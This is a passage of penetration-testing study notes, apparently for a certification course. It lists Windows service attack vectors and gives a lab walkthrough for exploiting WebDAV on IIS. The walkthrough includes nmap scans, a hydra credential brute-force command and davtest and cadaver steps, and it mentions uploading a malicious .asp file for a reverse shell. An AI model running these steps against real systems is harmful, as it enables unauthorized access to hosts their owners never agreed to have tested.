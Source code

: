         1. Exploit-db
        2. searchsploit
        3. Ref: Ref: [https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/4-va](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/4-va)
- Host and Network Auditing
    
    1. Cyber security Basics
    2. CIA Traid
    3. Defense in Depth
    4. Compliance
    5. Frameworks & Maturity
    6. Auditing
    7. Asset management - Nmap & Nessus
- Host and Network Penetration Testing
    
    - System/Host based Attacks
        
        - Windows
            
            Windows has various standard native services and protocols configured or not on a host. When active, they provide an attacker with an access vector.
            
            Microsoft IIS - 80/443
            
            WebDAV - 80/443 [davtest, cadaver, msfvenom]
            
            SMB - 443 [psexec]
            
            RDP - 3389
            
            Winrm - 5986/443 [crackmapexec, evil-winrm]
            
            **Exploiting Windows Vulnerabilities**
            
            - Exploiting WebDAV
                
                Check wheather webDAV has been configured to run on the IIS web server
                
                Bruteforce the credentials for login
                
                Upload a malicious .asp file that can execute arbitary commands or obtain a reverse shell on the target
                
                Tools : Davtest, cadaver
                
                - `nmap -sV -sC 10.3.26.115`
                    
                - `nmap -p80 --script http-enum -sV 10.3.26.115`
                    
                - Browser [http://10.3.26.115/webdav/](http://10.3.26.115/webdav/) - Login check
                    
                - `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.26.115 http-get /webdav/`
                    
                - `davtest -url <http://10.3.26.115/webdav`>
                    
                - `davtest -auth bob:password_123321 -url <http://10.3.26.115/webdav`> - Find out which file can be submitted
                    
                - cadaver [http://10.3.26.115/webdav](http://10.3.26.115/webdav)
                    
